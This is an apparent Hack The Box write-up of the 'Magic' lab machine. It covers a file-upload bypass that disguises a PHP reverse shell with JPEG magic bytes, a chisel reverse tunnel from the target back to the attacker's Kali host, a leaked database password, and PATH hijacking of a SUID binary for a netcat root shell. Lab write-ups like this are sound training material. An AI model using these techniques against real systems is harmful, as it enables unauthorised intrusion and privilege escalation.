


# Index
1. [Enumeration](#enumeration)
	<br>
	1.1 [Nmap](#nmap)
	</br>
	1.2 [Exploring Web Site](#Exploring-Web-Site)
2. [Pivoting](#Pivoting)	
3. [Privesc](#privesc)

#### Tags
<details markdown='1'>
<summary>Click to get a hint</summary> 
<ul>
	<li>302 response / SQLi</li>
	<li>Chisel / Port Forwarding</li>
	<li>SUID privilege escalation</li>
	<li>Path Hijacking</li>
</ul>
</details>

### Enumeration
**IP Address** 10.10.10.185
#### Nmap
After we are given the IP address, the first step is running a *nmap* in order to know which ports are open. I usually run *nmap -p-* to scan all 65535 ports and then I like to run the following command against the open ports:

```shell
sudo nmap -sC -sV -O -p 22,80 10.10.10.185      
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-25 10:54 EDT
Nmap scan report for 10.10.10.185
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.44 seconds
```

As we can observe, we have a web server at port 80. At the browser, the web looks like this:


We are able to login in order to upload images. So my first idea is to try and log in and then upload an image that contains a shell. For this, I need to register first and then check if there is any restriction regarding to uploading files.

Sadly for me, the login page looks like this and there is no button to register a user:


#### Exploring Web Site
Now I thougt about three options:
1. Try any classic user and hope that the message if the password is wrong is different than the one showed when the user is wrong. In this case I could bruteforce. Didn´t happen. I also tried some of the classic (admin/admin) and so on, but didn´t work neither.
2. Try a gobuster and search for more directories. As soon as I see a webpage, I leave a *gobuster* running in one of my tmux windows.
3. SQLi, which I further discovered that works.

I went on with a little of fuzzing and found the following directories:


Here I recalled that 302 response code is a little bit tricky. I had a chance to intercept the answer and change the *302 Found* Code to a *200 OK* code. For this, I used Burp. It worked intercepting the first response, set up Burp in order to make this change without having to intercept all the requests manually:


Once I had the burp running, I visited again the upload.php resource and it worked:


Now it was the time to upload a phpshell. First of all, as I saw a GIF back at the index, I took my chance uploading a GIF, which is usually easier to bypass (it can work adding "GIF89a;" at the beggining of the request), but Gifs were forbidden. Then I tried changing the extension and content intercepting the request, but didn´t work.

The next idea was trying changing the magic numbers of the shell. First of all, I copied a *php-reverse-shell* to a new file, *try.php.jpg*. Then, I edited the new file to add some characters at the beggining and in the end (something such as *////* will do the trick). Finally, I used the command:
```shell
hexeditor -b try.php.jpg
```
Now its time to change the beggining of the file to "FFD8 FFDB" and the end of the file to "FFD9".



With this, as it can be observed, the file will be detected as "IMAGE":


And the server will allow us to upload this file. Now, to see if that worked, it is necessary to establish a listener in our machine (nc will do it) and to discover where is the file stored in the server, in order to request it.
Reviewing the source code of the index, I found the following directory:


My guess was that the server was not changing the name of the file I uploaded, as the success message showed the name as I put it. So I wanted to try with:

```shell
http://10.10.10.185/images/uploads/try.php.jpg
```

Obtaining the shell as www-data:


### Pivoting
However, after discovering a user named Theseus and the location of the user flag, the user www-data didn´t have permissions to read it:

```shell
www-data@ubuntu:/$ ls /home/
theseus
www-data@ubuntu:/$ cd /home/theseus/
www-data@ubuntu:/home/theseus$ ls
Desktop    Downloads  Pictures  Templates  user.txt
Documents  Music      Public    Videos
www-data@ubuntu:/home/theseus$ cat user.txt 
cat: user.txt: Permission denied
www-data@ubuntu:/home/theseus$ 

```

Whenever I found myself in this position, I think that I have to find any file that contains credentials, so I can change user. Sometimes you can find user credentials, so you can change directly or, another times, some database credentials are found.
This creds are usually located in configuration files near the web server config, so I went back to the directory */var/www/Magic* and perform and *ls* to examine the files:


The second one, *db.php5*, seems the one cotaining the database configuration, so I read it.


Here we have some database credentials for the user we already knew. Unlucky for us, when trying to do a "su theseus" to change user, I found that these credentials weren´t working.

After this, I wanted to know if there was any database running in the system:


As, in fact, we got a database, I tried to connect to it, but I found mysql was not installed on the machine:


And here comes the magic. Once I found myself in this situation, I only couldn´t think in port forwarding. As we don´t have any ssh password to get the tunnel, I thought about [chisel](https://github.com/jpillora/chisel/releases).

I donwloaded the latest binary and perform the following commands to obtain the tunnel:

**KALI**
```shell
./chisel_1.7.6_linux_amd64 server -p 8000 -reverse
```

**MAGIC**
```shell
./chisel_1.7.6_linux_amd64 client $(kaliIPAddress):8000 R:3306:127.0.0.1:3306 &
```


Now, I was able to connect to the sql database from my kali machine. With the SQL database, I could get the password for the user theseus, *Th3s3usW4sK1ng*


Once here, I got the user flag:


### Privesc

The first thing I run when I have a user shell, is the script *suid3num*. With this script you can know in a quickly way if there is any possibility to do the privesc via suidenum.
This time, the results I obtained were really good:



In order to know more about the binary *sysinfo*, I used the command *strings*, with the following results:

```shell
theseus@ubuntu:/tmp$ strings /bin/sysinfo                                         
                                
====================Hardware Info====================                                                                                  
lshw -short                                                                                                                            
====================Disk Info====================                                                                                      
fdisk -l                                                                                                                               
====================CPU Info====================                                                                                       
cat /proc/cpuinfo                                                                                                                      
====================MEM Usage=====================                                                                                     
free -h
theseus@ubuntu:/tmp$
```

As it can be observed, the commands used over here are not refered as absolute paths. This means that if, for example, I create a file named "fdisk" in */tmp* and export *tmp* to the path, the binary will execute my file. The correct way to implement this would be specificating the binary route (*/usr/bin/fdisk*)

So, the commands to do this are the following:

```shell
export PATH=/tmp:$PATH 
echo "id" > fdisk
chmod +x fdisk
/bin/sysinfo
```

After running */bin/sysinfo*, the results where *fdisk* is supposed to be executed are:


Obtaining a root shell was a little bit trickier. I tried adding a bash shell, but wasn´t working. I could read the root flag with this, but I wanted the shell. So, as nothing was working, I did the following:
1. Netcat was not installed on the machine, so I uploaded a binary (you can find the binary in kali executing *which nc*).
2. Invoke the *nc* binary with the file *fdisk* I created before, in order to connect to my machine. This is the script that */bin/sysinfo* will call.
3. Establish a listener and enjoy.

Here are steps one and two:


And after executing the */bin/sysinfo*, I obtained shell as root:


And that's all, another machine completed. This one was a really nice machine that have a lot of interesting points. I really enjoyed this one, as I hope you enjoy my writeup.

Please, feel free to [contact](https://twitter.com/sergioframi)  me if you want to ask or share anything about this machine. Thanks a lot! 
